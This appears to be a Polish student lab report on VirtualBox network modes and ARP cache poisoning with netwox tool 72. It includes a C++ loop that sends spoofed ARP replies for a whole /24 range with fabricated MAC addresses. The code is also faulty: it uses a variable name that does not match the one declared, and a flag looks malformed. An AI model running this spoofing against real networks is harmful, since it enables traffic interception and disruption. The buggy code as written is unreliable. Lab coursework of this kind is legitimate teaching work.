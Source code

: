 # Sprawoazdanie do laboratornej numer 9

### Zadanie 9.1

9P1: Należy wybrać odpowiedni tryb sieciowy Virtualbox dla struktury sieciowej, niezbędnej do wykonania ćwiczenia. Wybór ten należy uzasadnić. 

#### Topołogia połączeń:

* Internet
  * Lan or Virual Network (Gateway 192.168.0.124) (tryp sieci NAT)
    * Machine 1 (192.168.0.122)
    * Machine 2 (192.168.0.123)
    * Machine 3 (192.168.0.124)

Tryp nasłuchiwania: **Pozwalaj wszystkim**.

W sprawozdaniu proszę umieścić rysunek przedstawiający opracowaną konfigurację z zaznaczonymi adresami dla interfejsów i ustawionymi trybami sieciowymi. 

### Zadanie 9.2. Modyfikacja ARP cache

[Poszerzona wersja programu Narwag](http://www.cis.syr.edu/~wedu/Teaching/cis758/netw522/netwox-doc_html/tools/index.html)

9P2: Proszę „zatruć” pamięć podręczną ARP na maszynie vhost2 poprzez wygenerowanie odpowiedniego komunikatu za pomocą narzędzia 72 i wysłanie go z maszyny wirtualnej vhost1.

W sprawozdaniu proszę przedstawić przyjęte ustawienia narzędzia 72 z pakietu Netwax/Netwag oraz dowód, że zawartość pamięci podręcznej ARP na maszynie vhost 2 zmieniła się zgodnie z oczekiwaniami.

```cpp
#include <iostream>
using namespace std;

int main()
{
	char add[50];
	char ethadd[50];
	char erppoison[1000];
	for(int i=1; i<255;i++)
	{
		sprintf(add, "192.168.232.%d",i);
		sprintf(ethadd,"%x:%x:%x:%x:%x:%x",i,i,i,i,i,i);
		sprintf(arppoison,"netwox 72 --ips \"192.168.232.131\" --device \"Eth2\" -- src-eth %s --src-ip %s",ethadd,add);
		system(arppoison);
	}
	return 0;
}
```
